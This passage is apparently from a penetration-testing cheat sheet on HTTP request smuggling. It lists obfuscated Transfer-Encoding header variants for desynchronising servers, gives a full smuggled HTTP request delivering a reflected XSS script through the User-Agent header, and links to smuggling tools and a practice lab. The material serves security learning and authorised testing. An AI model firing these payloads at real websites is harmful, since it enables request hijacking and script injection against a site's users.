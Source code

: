 ```
X: X[\n]Transfer-Encoding: chunked
```

```
Transfer-Encoding
: chunked
```

```
Transfer-Encoding : \x00chunked
```

```
Transfer-Encoding: chùnked
```

```
Foo: bar\r\n\rTransfer-Encoding: chunked
```

### **XSS using HTTP request smuggling** ###

The obvious prerequisite is webpage should be vulnerable to Reflected XSS. Then you can use HTTP request smuggling to perform and increase the impact of the attack.\
When you have XSS on "User-Agent" header you can use something like below,

```
POST / HTTP/1.1
Host: unstable.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.77 Safari/537.36
Cookie: xyz=asd
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 213
Connection: keep-alive

0

GET /xss HTTP/1.1
Host: unstable.com
User-Agent: '"><script>alert("xss")</script>
Content-Length: 10
Content-Type: application/x-www-form-urlencoded

asdasd
```

### **Tools** ###

- [https://github.com/defparam/smuggler](https://github.com/defparam/smuggler)

- [https://github.com/ZeddYu/HTTP-Smuggling-Lab](https://github.com/ZeddYu/HTTP-Smuggling-Lab)

- [https://github.com/gwen001/pentest-tools](https://github.com/gwen001/pentest-tools)
